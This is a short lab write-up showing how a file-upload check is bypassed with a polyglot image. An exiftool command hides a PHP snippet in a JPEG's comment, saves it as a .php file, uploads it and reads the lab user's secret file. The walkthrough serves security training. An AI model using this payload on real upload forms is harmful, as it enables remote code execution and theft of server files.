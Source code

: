 # Lab: Remote code execution via polyglot web shell upload #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/1deb1861-d613-463f-8e52-79900f926e4a)

> File upload page

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/40b317e6-422a-434b-a5e3-3d11ab129e61)


> For creating the polyglot web shell we will use the following command `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" logo.jpg -o polyglot.php`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/98e550ca-5dac-40fa-9745-bf2ee2954301)

> The file is created succesfully now we will upload it.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/e7a83490-f816-4138-b36a-da10e8f3433e)

> The file was uploaded successfully

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ed8064aa-77d0-4986-a4ab-b01d2d043549)

> Now we are able to read the content `DFyz9Y186zmZRk2Kr7JU3RKt1ffmLTd8`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/55389dc6-b335-4f97-830d-ae2abcbd33d5)


![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/a2207c87-7a69-4ae1-a9e3-05d56d8953a2)


